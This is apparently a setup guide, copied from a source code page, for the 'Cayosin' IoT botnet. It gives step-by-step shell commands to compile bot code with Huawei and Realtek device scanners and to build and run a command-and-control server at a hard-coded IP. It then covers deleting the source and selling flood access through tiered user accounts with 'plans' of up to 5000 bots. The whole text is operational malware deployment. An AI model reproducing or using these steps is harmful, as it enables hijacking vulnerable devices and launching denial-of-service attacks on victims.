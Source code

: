 yum update -y; yum install wget python gcc nano screen httpd php -y; service httpd start; ulimit -n 999999

nano /usr/include/bits/typesizes.h

if '#define __FD_SETSIZE' is set to 1024, change it to 99999, otherwise CTRL + X to quit

change ips in:
- /bot/main.c
- /bot/huawei_scanner.c search for 'wget'
- /bot/realtek... .c search for 'wget'
- /CayosinCNC.c look for iplookup and change the ip there

gcc bot/*.c -o bp -pthread; python Cayosin.py fff 179.43.154.140  cayosin; rm -rf bot; mv iplookup.php /var/www/html

gcc -o cnc CayosinCNC.c -pthread; rm -rf CayosinCNC.c; rm -rf Cayosin.py; rm -rf cross-compiler-*

*You have the ability to make each account admin/superadmin/common.
"admin" Gives the ability to add/kick users and force unmute all clients. 
"superadmin" Gives all regular admin abilities, as well as IP Ban/Unban.
"common" Only allows the sending of floods, use of Tools and Server Commands.

*You must also select their bot plan.
"noob" gives control over 0 bots
"plan1" gives control over 100 bots
"plan2" gives control over 1000 bots
"plan3" gives control over 5000 bots
"all" gives them control over all bots

And their Plan Expiry Date (Format: 00/00/0000) (day/month/year)

nano logins.txt

YOUR_USERNAME YOUR_PASSWORD superadmin all 30/12/9999

screen ./cnc 420 850

hold down CTRL, then hold down A and then press D

CNC port = 65525, protocol = RAW

cmd to add a user:

adduser spotuser spotpass superadmin all 13/04/2022
